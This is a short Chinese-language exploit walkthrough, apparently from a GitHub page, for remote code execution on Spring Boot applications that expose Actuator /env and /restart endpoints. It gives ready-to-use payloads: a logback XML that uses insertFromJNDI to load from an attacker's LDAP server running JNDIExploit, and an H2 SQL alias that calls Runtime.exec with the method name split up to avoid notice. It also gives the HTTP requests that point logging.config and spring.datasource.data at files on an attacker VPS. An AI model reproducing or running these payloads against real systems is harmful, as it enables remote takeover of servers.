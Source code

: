 漏洞复现：  
  
1、在根目录创建一个xml文件，通过远程去加载exp.xml  
```
//这里base64为命令执行语句
<configuration>
  <insertFromJNDI env-entry-name="ldap://vvps:1389/TomcatBypass/Command/Base64/Y2FsYw==" as="appName" />
</configuration>
```  
  
2、vps上开启ldap服务并启动  
```
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i your-vps-ip
```  
  
3、 请求/env去设置logging.config属性  
```
//spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://vps:port/exp.xml

//spring 2.x
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://vps:ip/exp.xml"}
```  
  
4、最后访问 /restart 或 /actuator/restart重启即可  
  
提：如果说存在相关 tomcat 版本的话，也可以用javax.el.ELProcessor作为 Reference Factory来绕过高版本 JDK 的限制。  
# SpringBoot Actuator之restart logging.config grovvy命令执行  
  
利用条件：需要存在/env和/restart接口，环境需要存在h2database、spring-boot-starter-data- jpa相关依赖，返回错误的h2 sql语法漏洞利用：  
  
1、vps上进行存放.sql文件进行远程加载，内容如下  
```
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','calc');
```  
  
2、设置spring.datasource.data属性  
```
//spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.data=http://vps:port/exp.sql

//spring 2.x
POST /actuator/env
Content-Type: application/x-www-form-urlencoded

spring.datasource.data=http://vps:port/exp.sql
```  
  